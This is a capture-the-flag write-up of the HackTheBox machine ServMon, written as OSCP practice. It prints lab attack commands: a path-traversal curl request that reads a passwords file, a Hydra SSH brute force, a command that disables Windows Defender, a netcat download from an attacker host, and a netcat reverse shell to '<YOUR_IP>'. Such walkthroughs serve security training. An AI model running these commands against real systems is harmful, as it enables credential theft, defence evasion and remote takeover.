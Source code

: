 ```yaml
---
layout: post
title: "ServMon - HTB"
date: 2025-02-18 06:25:00 -0400
categories:
    - posts
tags:
    - Road2OSCP
    - CTF
    - en
    - writeup
---
```




# [HTB] ServMon Write-up

## Introduction

ServMon (HackTheBox) is an **Easy Windows** machine that presented multiple challenges in enumeration, exploitation, and privilege escalation. Key takeaways include:
- **Exploiting LFI with BurpSuite & curl** (`--path-as-is` trick).  
- **Understanding NVMS configuration**, which restricted access to localhost, requiring SSH tunneling.  
- **Bypassing Windows Defender** to execute a reverse shell via NSClient++.  

## Penetration Testing Methodology

### **1. Reconnaissance**

Starting with an `nmap` scan:

```bash
nmap -sC -sV -p- 10.129.29.110
```

Open ports discovered:
- **FTP (21/tcp)** with **anonymous login** enabled.
- **SSH (22/tcp)** available.
- **HTTP (80/tcp)** hosting NVMS-1000.
- **NSClient++ (8443/tcp)** running but restricted to localhost.

### **2. Enumeration**

#### **Connecting to FTP as Anonymous**
```bash
ftp 10.129.29.110
```

Inside `/Users/`, found folders **Nadine** and **Nathan**. Downloaded files:
```bash
get Confidential.txt
get Notes to do.txt
```

- `Confidential.txt` mentioned **Passwords.txt** on Nathan’s Desktop.
- `Notes to do.txt` referenced **NVMS-1000**, **NSClient++**, and **SharePoint**.

#### **Browsing HTTP Service**
Navigated to `http://10.129.29.110` and identified **NVMS-1000**, confirming its presence.

### **3. Exploitation**

#### **Exploiting Directory Traversal (LFI)**
Found **public exploit for NVMS-1000 (CVE-2020-9470)** using searchsploit:
```bash
searchsploit nvms
searchsploit -m 47774
```

Used **LFI upscale** via `curl` to read Nathan’s `Passwords.txt`:
```bash
curl -vv -X GET "http://10.129.29.110/../../../../../../../../../../../../users/Nathan/Desktop/Passwords.txt" \
--path-as-is
```

#### **Brute Force SSH using Hydra**
```bash
hydra -L users.txt -P passwords.txt 10.129.29.110 ssh
```

Found valid SSH credentials:
```bash
nadine:L1k3B1gBut7s@W0rk
```

Logged in:
```bash
ssh nadine@10.129.29.110
```

Read user flag:
```bash
type C:\Users\Nadine\Desktop\user.txt
```

### **4. Privilege Escalation**

#### **Abusing NSClient++**
Found **NSClient++** installed in `C:\Program Files\NSClient++`.

Examined `nsclient.ini`:
```bash
type C:\Program Files\NSClient++\nsclient.ini
```
Identified a **password** and confirmed that **NSClient++ only allowed connections from localhost**.

#### **Bypassing Localhost Restriction with SSH Port Forwarding**
```bash
ssh -L 8443:127.0.0.1:8443 nadine@10.129.29.110
```

#### **Disabling Windows Defender for Payload Execution**
**Problem:** Windows Defender removed `nc.exe`.  
**Solution:** Used NSClient++ to execute a script that disabled Defender:
```powershell
powershell Set-MpPreference -DisableRealtimeMonitoring $true
```

Created a **batch script (`disable_av.bat`)**, uploaded it, and executed via NSClient++.

#### **Uploading and Executing Netcat for SYSTEM Shell**
```bash
iwr http://10.10.14.52:8000/nc64.exe -Outfile C:\Temp\nc.exe
```

Created `exploit.bat`:
```bash
@echo off
C:\Temp\nc.exe <YOUR_IP> 443 -e cmd
```

Executed the script through NSClient++ External Scripts.

Started a **reverse shell listener**:
```bash
nc -lvnp 443
```

Shell received:
```bash
whoami
nt authority\system
```

Read **root flag**:
```bash
type C:\Users\Administrator\Desktop\root.txt
```

### **5. Conclusion**

This machine presented key **pentesting challenges**:
- **Advanced LFI exploitation** (BurpSuite & curl `--path-as-is` trick).
- **SSH tunneling to access internal services**.
- **Abusing NSClient++ for SYSTEM privileges**.
- **Bypassing Windows Defender to execute netcat**.


## **6. Conclusion v2**  

### **Key Challenges & Solutions**  
The **most challenging aspect** of this machine was bypassing **Windows Defender**, as netcat kept disappearing. The breakthrough came when I leveraged **NSClient++ to execute commands as SYSTEM**, allowing me to disable Defender and run my payload. Additionally, **LFI was tricky** since it couldn’t be executed directly, requiring the correct use of **BurpSuite headers and curl’s `--path-as-is` option** to retrieve the credentials.  

### **Lessons Learned**  
- Improved **curl techniques** for LFI exploitation.  
- Learned how to **disable Windows Defender remotely** through a SYSTEM service.  

### **Security Mitigation Recommendations**  
- **Patch and update** vulnerable software (e.g., NVMS-1000).  
- Restrict unnecessary applications from **running as SYSTEM**.  
- **Disable SSH password authentication** and enforce certificate-based auth.  

### **What Would I Do Differently?**  
- Optimize **enumeration** to detect the SSH access earlier.  
- Spend less time trying to execute LFI manually and focus on **header-based** techniques.  

### **OSCP & Real-World Pentesting Relevance**  
This machine is a **solid introduction to Windows penetration testing**. It covers:  
✅ **Enumeration & Exploitation** (LFI, credential discovery, SMB bruteforcing).  
✅ **Privilege Escalation** using a **SYSTEM service** (NSClient++).  
✅ **AV Evasion & Bypassing Security Measures**, a crucial skill for **OSCP**.  

Overall, **ServMon is a great starting point** for Windows pentesting, reinforcing **fundamental enumeration, exploitation, and privesc techniques**. 🚀  
